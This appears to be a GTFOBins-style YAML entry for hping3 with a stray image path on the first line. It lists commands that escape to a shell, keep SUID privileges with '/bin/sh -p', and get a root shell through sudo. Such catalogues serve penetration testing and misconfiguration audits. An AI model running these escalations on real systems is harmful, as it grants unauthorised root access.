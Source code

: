 functions:
  shell:
    - code: |
        hping3
        /bin/sh
  suid:
    - code: |
        ./hping3
        /bin/sh -p
  sudo:
    - code: |
        sudo hping3
        /bin/sh
---
